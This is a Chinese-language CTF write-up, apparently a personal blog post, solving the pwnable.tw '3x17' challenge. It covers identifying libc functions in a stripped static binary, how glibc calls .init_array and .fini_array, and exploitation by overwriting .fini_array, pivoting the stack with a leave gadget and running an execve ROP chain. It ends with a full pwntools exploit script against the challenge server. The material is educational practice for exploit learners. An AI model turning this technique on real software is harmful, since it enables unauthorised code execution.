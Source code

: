 ```yaml
---
layout: post
title: pwnable.tw 3x17
date: 2022-08-03 20:17:00
tags: pwnable.tw
---
```


好难的一关，顺着这关学了好多东西……

## Part0 符号名呢

### 摸索

本题是一个strip后的静态链接文件……
当我打开IDA，我看不到任何一个函数名，只有一大堆地址迎接我。
于是我在libc里耗了一天，成果只是大致知道执行了哪些函数，并且给 `read`、`write` 等库函数标了名称。

然后我想了一个方法，我是不是可以根据函数的地址来看出这是哪一个libc版本，然后就可以给每个函数都标上名称了？然而不行。
静态链接不像动态链接，它只把用到了的函数链接进文件，因此库函数的地址和它在库中的位置毫无关系。

然后当天晚上做梦的时候，我梦到真的有这么一个库，我一把库拖进IDA PRO，软件自动给所有的函数都标上了名字。
醒来的时候我一想，会不会真有根据函数特征来识别函数名的功能？拿起枕边手机一查就查到了。（话说你不能早点查吗）

### 解决

参考[利用ida pro的flare功能识别静态链接函数签名_Anciety的博客](https://blog.csdn.net/qq_29343201/article/details/74656456)

IDA支持给特定库生成一个签名，然后用这个签名识别库函数的名称！
有人已经生成过很多签名了，可以直接去[push0ebp/sig-database: IDA FLIRT Signature Database (github.com)](https://github.com/push0ebp/sig-database)下载。

那么问题来了，下哪个libc版本呢？
pwnable.tw的官网首页说，题目都运行在ubuntu16.04或18.04上，所以我先去把这两个系统对应的libc都下了下来，发现只识别了五十几个库函数……
然后又下了一大堆libc版本，最后在19.04里找到的libc6_2.28成功匹配到了六百多个库函数。

于是我终于知道哪个是main函数了……然后发现离成功还尚早……

## Part1 分析（~~放弃~~）

本关开启了NX和Canary，没开PIE，那么应该是可以修改某些东西的。
main函数干了四件事：

1. write一个"addr:"
2. read一个0x18长度的字符串，并用一个库函数将其转换成数字（当成10进制数）。
3. write一个"data:"
4. read一个0x18长度的字符串，地址是刚刚输入的数。

然后就ret了。可以发现，我们没有任何泄露栈地址的方法，没办法进行简单的ret2xxx系列攻击。
（然后我就放弃了，这题大概又是超出我知识水平范围的，所以去网上找writeup：[和媳妇一起学Pwn 之 3x17 | Clang裁缝店](https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)看了）

## Part2 main函数的启动过程

参考教程：[linux编程之main()函数启动过程_gary_ygl的博客](https://blog.csdn.net/gary_ygl/article/details/8506007)

读了文章，学到很多姿势，尤其是对于C程序的抽象->具象：
从一开始的程序运行过程就是 `main` 开始到结束；
到后来知道从 `_start` 开始，它负责调用 `__libc_start_main()`，`__libc_start_main()` 再调用 `main()` 函数；
再到现在发现 `__libc_start_main()` 干了很多事情，包括在调用 `main()` 函数之前，调用 `__libc_csu_init()` 函数，并且用 `_cxa_atexit()` 函数设置程序退出前执行 `__libc_csu_fini()` 函数（具体来说 `exit()` 调用 `_run_exit_handlers()` ，并在其中按照倒序调用之前用 `_cxa_atexit()` 注册过的函数）。并且在调用 `main()` 之后，会调用 `exit()` 函数。

（其实还干了一些初始化以及善后工作，但是和链接比较相关，和本题不那么相关）

而逆向本题可以看到，`__libc_csu_init()` 主要做两件事：

1. 调用位于 `.init` 段中的 `_init_proc()`
2. 按顺序调用位于 `.init_array` 中的函数（这是一个函数指针数组）（数组大小固定，汇编中直接用立即数地址计算数组大小）

类似地，`__libc_csu_fini()` 也干两件事，但是和init是正好顺序相反的：

1. 按逆序调用位于 `.fini_array` 中的函数（这是一个函数指针数组）（数组大小固定，汇编中直接用立即数地址计算数组大小）
2. 调用位于 `.fini` 段中的 `term_proc()`

然后画个图表示一下我的理解：

![两个csu函数的调用顺序](/images/3x17_1.jpg)

而 `.init_array` 和 `.fini_array` 都是rw的，可写！
然后我决定在懂得了这些之后再自己尝试一下利用！

## Part3 Exploitation

通过覆写一次 `.fini_array`，可以达到如图的效果。

![fini&main循环](/images/3x17_2.jpg)

由于不存在wx的段，所以放弃shellcode，想想如何ROP。
光凭 `.fini_array` 这两个call是没有用的，必须想办法stack pivot一下。

刚开始的思路是利用

```asm
0x00418820: mov rax, qword [0x00000000004B7120] ; ret  ;
0x0044f62b: xchg eax, esp ; ret  ;
```

这两个gadget来把rsp弄到我想要的地方。但是我发现这做不到，原因是 `.fini_array` 只有两个元素，我不论怎么修改这个数组，都**只能实际调用一个gadget**。
原因如下：

![覆盖fini_array的两种情况](/images/3x17_3.jpg)

我们必须要用一个gadget完成stack pivot，这意味着要么有一个gadget同时涵盖了赋值+修改rsp的工作，要么利用寄存器或栈上已有的值。
GDB动态调试到这里，发现确实有几个寄存器存着RW的位置，其中就包括rbp。然后回忆一下：`leave = mov rsp, rbp; pop rbp;` ，用这个来stack pivot。

然后利用静态链接程序的丰富gadget库轻松写出了ROP chain，拿到了shell。

```python
from pwn import *
context.arch = 'amd64'
filename="./3x17"
# io = process(["strace", filename])
# io = process([filename])
io = remote("chall.pwnable.tw", 10105)

def write(addr, data):
    io.send(str(addr).encode('ascii'))
    print(io.recvS())
    io.send(data)
    print(io.recvrepeatS(0.5))

# addr
fini_array_addr = 0x4b40f0
new_stack_addr = fini_array_addr + 0x10
csu_fini_addr = 0x402960
main_addr = 0x401b6d
sh_str_addr = 0x4b40e0   # 随便取的

# ROP gadget
pop_rax = 0x0041e4af
pop_rdi = 0x00401696
pop_rdx_rsi = 0x0044a309
mov_rax_val = 0x0044f62b
leave = 0x00401c4b
syscall = 0x00471db5
return_ = 0x00401016    # just a normal ret，用来占位子

# ROP payload
payload1 = pack(pop_rax) + pack(59) + pack(pop_rdi)
payload2 = pack(sh_str_addr) + pack(pop_rdx_rsi) + pack(0)
payload3 = pack(0) + pack(syscall) + pack(0)

# pwn
write(fini_array_addr, pack(csu_fini_addr) + pack(main_addr))

write(sh_str_addr, b'/bin/sh\x00')
write(new_stack_addr, payload1)
write(new_stack_addr + 8*3, payload2)
write(new_stack_addr + 8*6, payload3)

write(fini_array_addr, pack(leave) + pack(return_) + pack(pop_rax))

io.interactive()
```

一个小技巧：
如果不间断地给程序数据，很可能send到同一个 `read()` 里。
面对这种情况，可以在两个 `send()` 中间 `recv()` 一下，又或者加上一个 `pause()` 手动停止，又或者加上一个 `sleep(0.15)` 来自动停止。
